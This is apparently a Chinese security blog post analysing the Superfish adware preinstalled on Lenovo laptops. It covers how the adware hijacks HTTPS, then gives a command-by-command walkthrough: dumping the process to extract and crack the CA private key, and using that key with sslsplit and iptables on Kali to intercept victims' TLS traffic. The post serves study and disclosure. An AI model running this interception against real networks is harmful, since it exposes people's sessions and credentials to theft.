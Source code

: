 # 我从Superfish事件中学到的

0x00 前言 & superfish事件
=====

Superfish这个事件，国内外报道的都很多，不过我个人感觉国内对漏洞事件的敏感度挺高，都是抢先第一个翻译报道，但是很少看到细节分析。国外的研究者在自己的博客有一些分析，我提取出来和大家分享学习，有理解不对的地方还希望指正。

联想笔记本用户从去年年中开始在官方论坛上报告他们的电脑预装了广告软件Superfish，Superfish会在用户电脑上安装自签名证书，劫持用户浏览的HTTPS/HTTP网页，劫持搜索结果，在Google搜索页面及其它网站上注入广告。联想客服代表Mark Hopkins证实Superfish是该公司预装在电脑中的，用户投诉之后他们已从系统中将该软件临时移除,这次事件给联想公司带来一连串公关灾难,联想宣布到Windows 10发布时，上市的联想电脑将会运行纯净的操作系统，不再捆绑第三方的臃肿软件（bloatware）,同时向受Superfish影响的客户提供6个月的McAfee LiveSafe安全软件服务,并提供移除工具（https://github.com/lenovo-inc/superfishremoval）。

0x01 superfish软件对用户上网的影响
=====

Superfish软件在安装的时候默认会把文件释放到 C:\Program Files\Lenovo\VisualDiscovery，然后执行下面命令

```
run.exe 30000 VisualDiscovery.exe /Auto /Service
run.exe 30000 C:\WINDOWS\system32\sc.exe start VisualDiscovery
run.exe 30000 VDWFPInstaller.exe install

```

superfish基于Komodia的引擎，他会注册服务，并且安装驱动，这些驱动文件也都有自己的签名，不过已经过期了。安装目录有个VDWFP.pdb文件，是使用WFP(Windows Filtering Platform)实现连接重定向的，也会在注册表添加HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\VDWFP项，包括要劫持的应用程序列表，不劫持的IP地址，劫持端口等信息。还会开放23154，23156，23160端口实现代理，方便中间人攻击。SuperfishCert.dll文件的作用是安装恶意证书到应用程序，VisualDiscovery.exe使用OpenSSL的静态链接文件，包含公共密钥是私有密钥，但是我逆向基础差，没有从这里看到，而是通过dump出的内存找到的，下一节会有介绍。

![enter image description here](http://drops.javaweb.org/uploads/images/3e9efb3b13ed06a53346d9f68d7af63f32527103.jpg)

此时你在访问HTTPS网站的时候，浏览器里显示的SSL证书的颁发颁发机构(CA)会是superfish，而不是常见的VeriSign，如图：

![enter image description here](http://drops.javaweb.org/uploads/images/779fca1c32708ec208d71ee87b6910605fbaa725.jpg)

Superfish的目的是在用户电脑上安装自签名证书，劫持用户浏览的HTTPS/HTTP网页，插入广告。从上可以知道superfish本身也是认证机构(CA)，如果我们能够得到CA的私钥， 自签名证书，还能做更多有意思的事情。

0x02 提取CA私钥
=====

首先使用procdump工具dump出VisualDiscovery.exe进程的内存信息

```
procdump -ma VisualDiscovery.exe super.dmp

```

然后使用strings小工具提取super.dmp 中的字符串，如图

```
Strings.exe super.dmp > stringsuper.txt

```

![enter image description here](http://drops.javaweb.org/uploads/images/fa54c2a0c716e2f401631bc4710f0652d6afb59e.jpg)

在stringsuper.txt文件中搜索"PRIVATE KEY"，可以看到证书信息，把相关信息COPY出来（https://github.com/robertdavidgraham/pemcrack/blob/master/test.pem），然后用openssl导入证书和密钥,确提示输入密码

![enter image description here](http://drops.javaweb.org/uploads/images/2f88d07e9276d9fb45ffc08d24b280287c74870d.jpg)

老外有放出来一个单线程的破解工具（https://github.com/robertdavidgraham/pemcrack），还是使用stringsuper.txt里的单词当字典进行破解

提取字典

```
grep "^[a-z]*$" stringsuper.txt | sort | uniq > super.dict

```

编译工具，破解

![enter image description here](http://drops.javaweb.org/uploads/images/fa9ab032f4b4a2222ec06db378563d253a2c97b0.jpg)

得到密码是komodia

![enter image description here](http://drops.javaweb.org/uploads/images/c6c3ac05b8062e99b2a1ca7684bc3a9291d2a875.jpg)

0x03 作恶
=====

得到认证机构(CA)的私钥后，任何人都可以以该机构的身份颁发证书了。比如利用superfish的CA私钥给恶意软件做签名逃避主动防御和杀毒，mcafee已经发现有真实的互联网攻击了（https://blogs.mcafee.com/mcafee-labs/superfish-root-certificate-used-sign-malware）

![enter image description here](http://drops.javaweb.org/uploads/images/43028b8540ea108f9c154c358f542f9459cfec48.jpg)

其他的攻击利用场景：受害者机器已经安装了superfish软件,在一个不可信的网络内（比如共享WIFI），自己的上网流量可以被重定向（比如攻击者通过ARP/修改受害者机器网关/修改受害者机器的DNS配置等方法）；攻击者的平台使用的是KALI，使用hostapd做了一个无线热点，然后用sslsplit(https://github.com/droe/sslsplit)做中间人劫持，sslsplit比mitmproxy好的地方是，他还能支持其他基于TLS/SSL的流量，比如像FTPS,SMTP OVER SSL，IMAP OVER SSL等，操作步骤如下：

导出证书和私钥

```
root@kali:~# openssl rsa -in test.pem -out ca.key
root@kali:~#cat ca.cer
-----BEGIN CERTIFICATE-----
MIIC9TCCAl6gAwIBAgIJANL8E4epRNznMA0GCSqGSIb3DQEBBQUAMFsxGDAWBgNV
BAoTD1N1cGVyZmlzaCwgSW5jLjELMAkGA1UEBxMCU0YxCzAJBgNVBAgTAkNBMQsw
CQYDVQQGEwJVUzEYMBYGA1UEAxMPU3VwZXJmaXNoLCBJbmMuMB4XDTE0MDUxMjE2
MjUyNloXDTM0MDUwNzE2MjUyNlowWzEYMBYGA1UEChMPU3VwZXJmaXNoLCBJbmMu
MQswCQYDVQQHEwJTRjELMAkGA1UECBMCQ0ExCzAJBgNVBAYTAlVTMRgwFgYDVQQD
Ew9TdXBlcmZpc2gsIEluYy4wgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAOjz
Shh2Xxk/sc9Y6X9DBwmVgDXFD/5xMSeBmRImIKXfj2r8QlU57gk4idngNsSsAYJb
1Tnm+Y8HiN/+7vahFM6pdEXY/fAXVyqC4XouEpNarIrXFWPRt5tVgA9YvBxJ7SBi
3bZMpTrrHD2g/3pxptMQeDOuS8Ic/ZJKocPnQaQtAgMBAAGjgcAwgb0wDAYDVR0T
BAUwAwEB/zAdBgNVHQ4EFgQU+5izU38URC7o7tUJml4OVoaoNYgwgY0GA1UdIwSB
hTCBgoAU+5izU38URC7o7tUJml4OVoaoNYihX6RdMFsxGDAWBgNVBAoTD1N1cGVy
ZmlzaCwgSW5jLjELMAkGA1UEBxMCU0YxCzAJBgNVBAgTAkNBMQswCQYDVQQGEwJV
UzEYMBYGA1UEAxMPU3VwZXJmaXNoLCBJbmMuggkA0vwTh6lE3OcwDQYJKoZIhvcN
AQEFBQADgYEApHyg7ApKx3DEcWjzOyLi3JyN0JL+c35yK1VEmxu0Qusfr76645Oj
1IsYwpTws6a9ZTRMzST4GQvFFQra81eLqYbPbMPuhC+FCxkUF5i0DNSWi+kczJXJ
TtCqSwGl9t9JEoFqvtW+znZ9TqyLiOMw7TGEUI+88VAqW0qmXnwPcfo=
-----END CERTIFICATE-----

```

在kali上安装sslsplit

```
root@kali:~# git clone https://github.com/droe/sslsplit
root@kali:~# cd  sslsplit/
root@kali:~/sslsplit# make -j 10
root@kali:~/sslsplit# make install

```

SSLsplit会监听2个端口，8080（用于非SSL连接），8443（用于SSL连接），为了能够通过这2端口转发流量到受害者的机器，还需要用iptables做下端口重定向。

```
root@kali:~# sysctl -w net.ipv4.ip_forward=1
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443

```

然后攻击者执行

```
root@kali:~# sslsplit -D -l connections.log -S /var/log/sslsplit -k ca.key -c ca.cer ssl 0.0.0.0 8443

```

![enter image description here](http://drops.javaweb.org/uploads/images/a000a8cff206798790ebaad2486b096fa6b75fdb.jpg)

这样受害者再访问有HTTPS的网站时，所有会话信息会保存到/var/log/sslsplit。

这个思路也有被用在bkpctf中 (http://mweissbacher.com/blog/2015/03/01/boston-key-party-2015-kendall-challenge-superfish/)

0x04 参考
=====

```
<<图解密码技术>>
http://blog.kaspersky.com/lenovo-pc-with-adware-superfish-preinstalled/
http://www.0xebfe.net/blog/2015/02/20/the-analysis-of-superfish-adware/
http://blog.erratasec.com/2015/02/extracting-superfish-certificate.html
http://blog.erratasec.com/2015/02/exploiting-superfish-certificate.html
http://kinozoa.com/blog/exploiting-superfish-subterfuge/
http://blog.trendmicro.com/trendlabs-security-intelligence/extended-validation-certificates-warning-against-mitm-attacks/

```
